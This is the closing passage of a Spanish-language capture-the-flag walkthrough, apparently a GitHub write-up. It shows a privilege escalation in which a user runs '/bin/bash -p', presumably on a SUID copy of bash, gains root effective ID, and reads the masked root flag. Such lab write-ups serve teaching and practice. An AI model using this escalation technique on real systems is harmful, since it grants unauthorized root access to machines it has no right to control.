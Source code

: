 Ya podemos hacer lo siguiente:

alex@ubuntu:~$ /bin/bash -p
bash-4.3# id
uid=1000(alex) gid=1000(alex) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare),1000(alex)
bash-4.3# cat /root/root.txt
flag{****************}

De esta manbera, terminamos la maquina, Muchas gracias por llegar al final!

![finito](images/finito.png)
